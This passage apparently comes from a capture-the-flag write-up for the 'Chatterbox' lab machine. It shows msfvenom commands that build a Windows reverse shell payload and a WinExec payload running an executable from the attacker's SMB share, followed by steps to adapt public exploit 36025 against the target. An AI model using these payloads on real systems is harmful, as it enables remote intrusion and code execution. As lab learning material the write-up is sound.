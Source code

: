 This becomes the below `msfvenom` command

```bash
BADCHARS=$(python -c 'print("\\x00"+"".join("\\x"+hex(c)[2:] for c in range(0x80,0x100)))')
msfvenom --payload windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         --arch x86 \
         --platform Windows \
         --encoder x86/unicode_mixed \
         BufferRegister=EAX \
         --bad-chars "$BADCHARS" \
         --var-name buf \
         --space 730 \
         --format python
```

However, the encoder failed to fit the payload into 730 bytes:

![bof1](./chatterbox/bof1.png)

Instead of a reverse shell, try a WinExec payload that downloads a file over SMB and executes it:

```bash
msfvenom --payload windows/exec \
         CMD='cmd.exe /c \\10.10.14.25\BUBBA\bubba.exe' \
         --arch x86 \
         --platform Windows \
         --encoder x86/unicode_mixed \
         BufferRegister=EAX \
         --bad-chars "$BADCHARS" \
         --var-name buf \
         --space 730 \
         --format python
```

This does generate a valid encoded payload. Copy over and edit exploit 36025 to use the new `buf` Python variable and change the IP to 10.10.10.74 at the bottom:

```bash
searchsploit -m 36025
vim 36025.py
```

